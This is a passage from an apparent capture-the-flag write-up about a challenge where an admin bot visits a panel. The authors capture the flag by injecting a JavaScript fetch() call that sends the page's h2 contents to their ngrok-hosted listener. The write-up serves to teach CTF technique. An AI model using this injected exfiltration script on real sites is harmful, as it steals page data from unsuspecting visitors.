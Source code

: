 Then we have to wait for a minit for the admin bot to visit the panel as shown in the main index file

```js
setInterval(visitPanel, 60000);
```

For the server any simple http will work, we used python http.server module and [ngrok](https://ngrok.com/) to get a temporary domain.

but then we realized that there is no admin cookie on the page, but thankfully the flag is displayed in the page itself so we can just edit the file upload script anb grab the body of the html tag containing the flag and send it over as so

```js
fetch('https://fd82-91-232-100-54.eu.ngrok.io/?'+ document.getElementsByTagName('h2')[0].innerHTML)
```

And finally we get the flag

![sol](./images/server_flag.png)